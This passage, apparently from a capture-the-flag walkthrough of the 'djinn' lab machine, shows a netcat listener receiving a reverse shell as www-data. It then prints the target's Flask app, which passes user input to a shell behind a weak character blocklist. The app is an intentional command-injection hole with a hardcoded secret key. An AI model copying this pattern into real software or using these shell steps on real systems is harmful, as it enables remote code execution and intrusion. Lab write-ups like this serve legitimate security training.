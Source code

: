 Get the shell.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999         
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.154] 57748
/bin/sh: 0: can't access tty; job control turned off
$ id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 8. Enumerate from user
Check out app.py first off.
```python
www-data@djinn:/opt/80$ cat app.py
import subprocess

from flask import Flask, redirect, render_template, request, url_for

app = Flask(__name__)
app.secret_key = "key"

CREDS = "/home/nitish/.dev/creds.txt"

RCE = ["/", ".", "?", "*", "^", "$", "eval", ";"]


def validate(cmd):
    if CREDS in cmd and "cat" not in cmd:
        return True

    try:
        for i in RCE:
            for j in cmd:
                if i == j:
                    return False
        return True
    except Exception:
        return False


@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")


@app.route("/wish", methods=['POST', "GET"])
def wish():
    execute = request.form.get("cmd")
    if execute:
        if validate(execute):
            output = subprocess.Popen(execute, shell=True,
                                      stdout=subprocess.PIPE).stdout.read()
        else:
            output = "Wrong choice of words"

        return redirect(url_for("genie", name=output))
    else:
        return render_template('wish.html')


@app.route('/genie', methods=['GET', 'POST'])
def genie():
    if 'name' in request.args:
```